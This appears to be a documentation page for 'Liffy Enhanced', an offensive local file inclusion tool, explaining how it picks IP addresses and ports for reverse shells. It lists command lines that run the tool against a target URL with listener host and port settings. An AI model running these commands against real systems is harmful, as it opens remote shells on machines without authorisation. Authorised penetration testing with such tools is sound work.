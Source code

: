 # 🔍 Auto-Detection Features

Liffy Enhanced includes powerful auto-detection capabilities for IP addresses and ports, making it easier to use without manual configuration.

## 🌐 IP Auto-Detection

### Automatic IP Detection

Liffy Enhanced can automatically detect the best IP address to use for reverse shells:

```bash
# Auto-detect IP address
python3 liffy_enhanced.py --url http://target/file.php?page= --auto --auto-ip --lport 4444

# Auto-detect both IP and port
python3 liffy_enhanced.py --url http://target/file.php?page= --auto --auto-ip --auto-port
```

### IP Detection Methods

The auto-detection system uses multiple methods to find the best IP:

1. **Network Interface Analysis**: Scans all network interfaces
2. **Target Network Matching**: Finds IP in same subnet as target
3. **Interface Priority**: Prefers ethernet over WiFi
4. **Fallback Services**: Uses public IP services as last resort

### Manual IP Selection

You can still specify IP addresses manually:

```bash
# Use specific IP
python3 liffy_enhanced.py --url http://target/file.php?page= --auto --lhost 192.168.1.100 --lport 4444

# Use public IP
python3 liffy_enhanced.py --url http://target/file.php?page= --auto --lhost 203.0.113.1 --lport 4444
```

## 🔌 Port Auto-Detection

### Automatic Port Detection

Liffy Enhanced can automatically find available ports:

```bash
# Auto-detect port
python3 liffy_enhanced.py --url http://target/file.php?page= --auto --lhost 192.168.1.100 --auto-port

# Auto-detect both IP and port
python3 liffy_enhanced.py --url http://target/file.php?page= --auto --auto-ip --auto-port
```
